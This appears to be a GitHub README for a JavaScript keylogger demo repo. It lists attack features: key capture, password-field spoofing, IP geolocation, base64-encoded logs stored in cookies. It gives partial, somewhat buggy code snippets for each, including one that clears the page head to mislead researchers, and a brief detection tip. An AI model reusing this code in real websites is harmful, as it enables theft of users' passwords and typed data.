 Javascript Keylogging
===

A repo with code illustrating the ease of writing keylogger in javascript.

**Why make this repo?**

Javascript is exploding. A lot of people like using ES6 with a transpiler, so ES5 and 'browser' js is less prevalent. Most people don't realize how much access to the client machine the browser gives the developer. This repo was me exploring that.

---

### What is the attack?

This is a very, very simple attack. It just goes to show it's not about the code, it's about the usage.

  * Logs all key inputs
  * Spoofs a real password field with text
  * Handles special keys (ALT, SHIFT, ENTER, etc) for easy readability 
  * Capture client IP and return location data, estimate exact location
  * Base64 encode the keylogs
  * Save all user data in base64 encoded cookie

### Examples

  * Example 1 - basic, barebones usage of the script
  * Example 2 - realistic order form for plane ticket
  * Example 3 - event based listening and logging

### How to detect?

  * **Use the JS profiler in DevTools** - check out the dev tools.



**Basic Keylogger**

```js
document.onKeyDown(function(e) {
  // IE
  e = e || event;
  // handle backspace
  if (e.key === backspace) {
    keys.length === 0 ? null : keys = keys.slice(0,-1) 
    } else if (modifierKeys.includes(e.key)) { null } else {
    keys.push(e.key);
  }
  // log keys, handle nil
  keys.length === 0 ? console.log('no keys, backspace') : console.log(keys.join(''))
})
```

**Get User Information**

```js
// Can replace with any IP tool of preference 
// -> empty callback for JSONP
$.getJSON('http://freegeoip.net/json/?callback=?', function(data) {
  console.log(JSON.stringify(data, null, 2));
});
```

**Clear the <HEAD> of Website**

Potentially smart attack to provide misleading source code to researchers.

```js
// Clear the HEAD tag of the website
function clearHead() {
  const _head = document.getElementsByTagName("head")[0];
  _head.innerHTML = ""
  // inject fake code
}

```

**Save cookie**

Save all the data to a cookie

```js
// calculate expiration for cookie
// @param days: integer
function expires(days) {
  var _date = new Date();
  var date = _date.setTime(_date.getTime() + (days*24*60*60*1000));
  return date.toUTCString();
}

var val = "foo=bar;"
        var date = new Date();
        date.setTime(date.getTime() + (days*24*60*60*1000));

var expires = "expires=" + expires() + ";";
document.cookie = val + expires + "path=/;";
```


